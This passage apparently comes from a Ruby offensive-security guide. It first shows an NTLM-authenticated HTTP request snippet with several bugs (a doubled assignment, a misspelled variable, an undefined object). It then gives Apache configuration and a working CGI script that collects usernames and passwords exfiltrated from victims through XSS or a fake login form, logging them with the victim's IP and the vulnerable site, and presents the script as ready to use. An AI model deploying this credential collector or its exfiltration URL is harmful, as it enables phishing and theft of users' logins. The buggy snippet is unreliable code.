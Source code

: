```ruby
require 'ntlm/http'

username = "Admin"
password = "P@ssw0rd"
uri      = URI("http://rubyfu.net/login")

http = http = Net::HTTP.new(uri.host, uri.port)
req  = Net::HTTP::Get.new(uri)
req.ntlm_auth usernamen, password
res  = http.request(request)

puts res.body
```




## CGI
### Get info - from XSS/HTMLi exploitation
When you exploit XSS or HTML injection you may need to receive the grepped data from exploited user to your external server. Here a simple example of CGI script take sent get request from fake login from that asks users to enter log-in with username and password then will store the data to `hacked_login.txt` text file and fix its permissions to assure that nobody can access that file from public.

Add the following to `/etc/apache2/sites-enabled/[SITE]` then restart the service
```
<Directory /var/www/[CGI FOLDER]>
        AddHandler cgi-script .rb
        Options +ExecCGI
</Directory>
```
Now, put the script in /var/www/[CGI FOLDER]. You can use it now.
```ruby
#!/usr/bin/ruby
# CGI script gets user/pass | http://attacker/info.rb?user=USER&pass=PASS
require 'cgi'
require 'uri'

cgi  = CGI.new
cgi.header  # content type 'text/html'
user = URI.encode cgi['user']
pass = URI.encode cgi['pass']
time = Time.now.strftime("%D %T")

file = 'hacked_login.txt'
File.open(file, "a") do |f|
  f.puts time   # Time of receiving the get request
  f.puts "#{URI.decode user}:#{URI.decode pass}"    # The data
  f.puts cgi.remote_addr    # Remote user IP
  f.puts cgi.referer    # The vulnerable site URL
  f.puts "---------------------------"
end
File.chmod(0200, file)  # To prevent public access to the log file

puts ""
```


[^1]: [WebShellConsole](https://github.com/KINGSABRI/WebShellConsole) is simple interactive console, interacts with simple web shells using HTTP GET rather than using browser. wsc will work with any shell use GET method. It takes care of all URL encoding too.
[3]: http://docs.seattlerb.org/mechanize/GUIDE_rdoc.html
[4]: http://docs.seattlerb.org/mechanize/EXAMPLES_rdoc.html
[5]: http://railscasts.com/episodes/191-mechanize
[6]: https://github.com/httprb/http
[7]: https://github.com/httprb/http/wiki